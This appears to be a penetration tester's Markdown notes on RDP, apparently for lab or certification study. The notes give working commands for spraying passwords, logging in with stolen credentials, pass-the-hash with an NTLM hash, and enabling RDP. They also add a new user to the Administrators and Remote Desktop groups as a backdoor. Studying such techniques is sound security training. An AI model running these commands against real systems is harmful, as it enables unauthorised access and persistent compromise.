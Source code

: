# RDP

- keep this in mind when you get creds
- again usually a sign that you should RDP inside to do things at some point
- You can use nxc to spray to see which users can RDP in

```bash
# can specify a file or a string as arguments for username and password
nxc rdp <ip> -u <username> -p <password>
```

## got creds? (hashes count too)

Use the following command to dynamically resize your RDP window and mount the Tools folder as a share

```bash
xfreerdp +clipboard /u:jason /p:lab /v:192.168.149.203 /dynamic-resolution /drive:shared,/home/kali/Desktop/Tools
```

You can also pass the hash using xfreerdp

```bash
xfreerdp +clipboard /u:jason /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:192.168.149.203 /dynamic-resolution /drive:shared,/home/kali/Desktop/Tools
```

RDesktop can also be useful in certain situations as they direct you to the Windows login page, allowing you to check the OS version based on the background

```bash
rdesktop <ip>
```

It is worth taking note that certain commands cannot be executed on a remote session and requires a native shell to be spawned (Usually powershell Get cmdlets).

In this scenario, if you have administrative privileges (or higher) already, you can simply enable RDP if you have to and/or add a user to the Remote Desktop group

```powershell
# enabling RDP and opening port 3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"

# creating a user/assigning a user to the Remote Desktop Users group
net user salaryman Password123! /add
net localgroup administrators salaryman /add 
net localgroup "Remote Desktop Users" salaryman /add
```